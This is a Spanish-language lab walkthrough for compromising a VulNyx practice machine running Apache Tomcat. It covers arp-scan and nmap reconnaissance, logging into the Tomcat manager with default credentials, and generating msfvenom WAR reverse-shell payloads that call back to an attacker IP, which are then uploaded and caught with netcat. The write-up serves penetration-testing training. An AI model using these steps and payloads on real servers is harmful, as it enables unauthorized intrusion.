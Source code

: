 Maquinas a utilizar **Kali Linux y Deploy** [https://vulnyx.com/#deploy](https://vulnyx.com/#deploy)

  

Vamos a aprender **como podemos explotar un servidor Apache Tocamcat vulnerable**. Generaremos un payload compatible con tomcat subirlo al servidor y lograr intrusión a la maquina victima, vamos a ver **dos tipos de payload diferentes** que tenemos que probar ante un servidor Tomcat.

  

```Bash
sudo arp-scan -I eth0 --localnet  
```

![[Imagenes/image 40.png|image 40.png]]

  

```Bash
nmap -p- -sS -sV -sC --open -min-rate=5000 -n -vvv -Pn 10.0.3.15 -oN escaneo
```

![[Imagenes/image 1 29.png|image 1 29.png]]

Nos encontramos un servidor Apache Tomcat corriendo en el puerto 8080.

  

> [!important] Apache Tomcat es un servidor web desarrollado por la Apache Software Foundation. Está diseñado para ejecutar aplicaciones web basadas en Java, como servlets y JavaServer Pages (JSP). Su propósito principal es proporcionar un entorno robusto y eficiente para desplegar aplicaciones web dinámicas.
> 
> Entre sus usos más comunes se encuentran:
> 
> - **Procesamiento de solicitudes HTTP**: Actúa como un servidor web que recibe y responde a solicitudes HTTP.
> - **Ejecución de aplicaciones Java**: Permite ejecutar servlets y JSP, generando contenido dinámico para los usuarios.
> - **Despliegue de aplicaciones web**: Facilita el despliegue de aplicaciones mediante archivos WAR (Web Application Archive).
> - **Gestión de sesiones**: Ofrece funcionalidades para manejar sesiones de usuario en aplicaciones web.

  

- Vamos a verlo en el navegador web.
    
    ![[Imagenes/image 2 28.png|image 2 28.png]]
    
    > [!important] Lo que vemos es lo que aparece por defecto y sin configurar cuando recién instalamos un servidor Tomcat.
    
      
    
    Si nos fijamos tenemos una sección **tomcat9-admin** y un enlace llamado **manager webapp** donde nos pide unas credenciales para acceder a la configuración del Apache tomcat.
    
    ![[Imagenes/image 3 27.png|image 3 27.png]]
    

![[Imagenes/image 4 26.png|image 4 26.png]]

> [!important] **Trucos a probar**: En Tomcat cundo hacemos una instalación ya viene por defecto unas credenciales activadas.
> 
> 1. Buscaríamos en Google o en otro buscador los siguiente:
>     
>     **hacktricks apache tomcat default credentials**
>     
>     ![[Imagenes/image 5 25.png|image 5 25.png]]
>     
>       
>     
>     **[https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/tomcat/index.html](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/tomcat/index.html)**
>     
>     ![[Imagenes/image 6 23.png|image 6 23.png]]
>     
>     Y probaríamos una a una todas las credenciales.
>     
>       
>     
> 2. En el Panel de Login pulsamos a la tecla Cancel.
>     
>     ![[Imagenes/image 7 21.png|image 7 21.png]]
>     
>       
>     
>     Nos daría un mensaje de error que nos marcaria las credenciales.
>     
>     ![[Imagenes/image 8 19.png|image 8 19.png]]
>     

  

- Entramos con las credenciales que hemos encontrado.
    
    ![[Imagenes/image 9 18.png|image 9 18.png]]
    

![[Imagenes/image 10 17.png|image 10 17.png]]

  

- Nos encontramos que nos deja subir archivos.
    
    ![[Imagenes/image 11 13.png|image 11 13.png]]
    

  

- Por tanto crearemos un archivo malicioso para subirlo al servidor y ganar intrusión en la maquina.
    
    - Consultamos nuestra IP.
        
        ```Bash
        hostname -I 
        ```
        
        ![[Imagenes/image 12 13.png|image 12 13.png]]
        
    
      
    
    - Creamos nuestro archivo malicioso.
        
        ```Bash
        msfvenom -p java/shell_reverse_tcp LHOST=10.0.3.4 LPORT=443 -f war -o reverse1.war 
        ```
        
        ![[Imagenes/image 13 13.png|image 13 13.png]]
        
        > [!important] `**msfvenom**`:<br>Es una herramienta de Metasploit que se utiliza para generar payloads (cargas útiles) que pueden ser usados en pruebas de penetración. Permite personalizar el tipo de ataque, el formato de salida y muchos otros parámetros.<br>
        > 
        > `**p java/shell_reverse_tcp**`:  
        > Especifica el tipo de payload que quieres crear. En este caso:  
        > 
        > - `**java/shell_reverse_tcp**` genera un shell inverso basado en Java que permite al sistema objetivo conectarse de vuelta al atacante (es decir, iniciar una conexión hacia el servidor controlado por el atacante).
        > 
        > `**LHOST=10.0.3.4**`:  
        > Define la dirección IP del "host local" que recibirá la conexión de retorno desde la máquina objetivo. Es decir, la dirección IP del atacante.  
        > 
        > `**LPORT=4443**`:  
        > Especifica el puerto que estará escuchando en la máquina del atacante para recibir la conexión inversa.  
        > 
        > `**f war**`:  
        > Indica el formato del archivo de salida. En este caso, se utiliza el formato  
        > `.war` (Web Application Archive), que es comúnmente desplegado en servidores Java como Apache Tomcat.
        > 
        > `**o reversel.war**`:  
        > Define el nombre del archivo que se generará como resultado del comando. En este caso, se generará un archivo llamado  
        > `reversel.war`.
        
    
    En condiciones normales con este payload nos bastaría para ganar intrusión pero todo dependerá de como este hecho el servidor podría funcionar o no. Así que vamos a crear otro distinto por si el primero no funcionara. La diferencia estriba en que tipo de payload reverse vamos a usar en uno usarmeos `java/shell_reverse_tcp` y en otro `java/jsp_shell_reverse_tcp`.
    
      
    
    ```Bash
    msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.3.4 LPORT=443 -f war -o reverse2.war
    ```
    
    ![[Imagenes/image 14 11.png|image 14 11.png]]
    
    - Vamos a subir los dos archivos maliciosos.
        
        ![[Imagenes/image 15 10.png|image 15 10.png]]
        
        ![[Imagenes/image 16 7.png|image 16 7.png]]
        

- Nos ponemos a la escucha con netcat por el puerto que habíamos especificado en msfvenom en mi caso 443.
    
    ![[Imagenes/image 17 5.png|image 17 5.png]]
    
- Vamos probando los archivos para ver si funcionan haciendo clip en ellos en el panel web. En mi caso funcionan los dos.
    
    ![[Imagenes/image 18 4.png|image 18 4.png]]
    

- Vamos a hacer un **tratamiento de la TTY**
    
    En el apunte: **Primeros pasos tras la Intrusión (Tratamiento de la TTY)**